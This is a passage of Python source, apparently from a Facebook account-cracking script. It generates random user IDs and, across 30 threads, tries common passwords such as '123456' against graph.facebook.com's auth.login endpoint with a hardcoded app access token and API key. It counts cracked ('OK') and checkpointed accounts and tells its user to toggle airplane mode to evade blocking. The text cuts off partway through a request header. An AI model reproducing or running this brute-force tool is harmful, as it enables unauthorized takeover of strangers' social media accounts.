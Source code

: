 def __Old3__():
    user=[]
    clear()
    print(f'\33[38;5;160m[\033[1;97m👍🏻\33[38;5;160m] \033[1;97mEXAMPLE \33[38;5;160m  ▶\033[1;97m 10000\33[38;5;37m|\033[1;97m20000\33[38;5;37m|\033[1;97m30000\33[38;5;37m|\033[1;97m40000')
    linex()
    limit=input(f'\33[38;5;160m[\033[1;97m👍🏻\33[38;5;160m] \033[1;97mSELECTION \33[38;5;160m▶ \033[1;97m')
    linex()
    year_code = '10000'
    for i in range(int(limit)):
    	data=str(random.choice(range(1000000000,1999999999)));user.append(data)
    with tred(max_workers=30) as jihad:
        clear()
        print(f'\33[38;5;160m[\033[1;97m👍🏻\33[38;5;160m] \033[1;97mTOTAL ID \33[38;5;160m▶ \033[1;97m{limit}')
        print(f'\33[38;5;160m[\033[1;97m👍🏻\33[38;5;160m] \033[1;97mUSED AIRPLANE MODE AFTER 5 MINUTE ')
        linex()
        for mal in user:
            uid=year_code+mal
            jihad.submit(login4,uid)            
    line();print(f'\r\33[38;5;160m[\033[1;97m👍🏻\33[38;5;160m] \033[1;97mYOUR CRACKED HAS BEEN COMPLETED...\33[38;5;160m!');linex();print(f'\r\r\r\r\33[38;5;160m[\033[1;97mᯤ\33[38;5;160m] \033[1;97mTOTAL OK \33[38;5;160m▶ \x1b[38;5;46m{len(oks)}');linex();input(f'\33[38;5;160m[\033[1;97mᯤ\33[38;5;160m] \033[1;97mINTER TO BACK RAN AGAIN...\33[38;5;160m!\033[1;37m');main()

def login1(uid):
    global oks,loop,cps
    Session=requests.session()
    try:
        sys.stdout.write(f'\r\r\33[38;5;37m[\x1b[38;5;46mALi\33[38;5;37m-\x1b[38;5;46mB1\33[38;5;37m]\033[1;97m-\33[38;5;37m[\033[1;97m{loop}\33[38;5;37m]\033[1;97m-\33[38;5;37m[\x1b[38;5;46mOK\33[38;5;160m/\x1b[38;5;208mCP\33[38;5;37m]\033[1;97m-\33[38;5;37m[\x1b[38;5;46m{len(oks)}\33[38;5;160m/\x1b[38;5;208m{len(cps)}\33[38;5;37m]')
        sys.stdout.flush()
        ua = random.choice(ugen)
        ua = windows()
        for pw in ["123456","1234567","12345678","123456789","111222"]:
            data = {'adid':str(uuid.uuid4()),
            'format': 'json',
            'device_id':str(uuid.uuid4()),
            'cpl': 'true',
            'family_device_id':str(uuid.uuid4()),
            'credentials_type': 'device_based_login_password', 
            'error_detail_type': 'button_with_disabled', 
            'source': 'device_based_login', 
            'email':str(uid),
            'password':str(pw),
            'access_token': '350685531728|62f8ce9f74b12f84c123cc23437a4a32', 
            'generate_session_cookies': '1', 
            'meta_inf_fbmeta': '', 
            'advertiser_id':str(uuid.uuid4()),
            'currently_logged_in_userid': '0', 
            'locale': 'en_US',
            'client_country_code': 'US', 
            'method': 'auth.login', 
            'fb_api_req_friendly_name': 'authenticate', 
            'fb_api_caller_class': 'com.facebook.account.login.protocol.Fb4aAuthHandler', 
            'api_key': '882a8490361da98702bf97a021ddc14d'}
            head = {'User-Agent': ua,
            'Content-Type': 'application/x-www-form-urlencoded', 
            'Host': 'graph.facebook.com', 
            'X-FB-Net-HNI': '25227',
            'X-FB-SIM-HNI': '29752',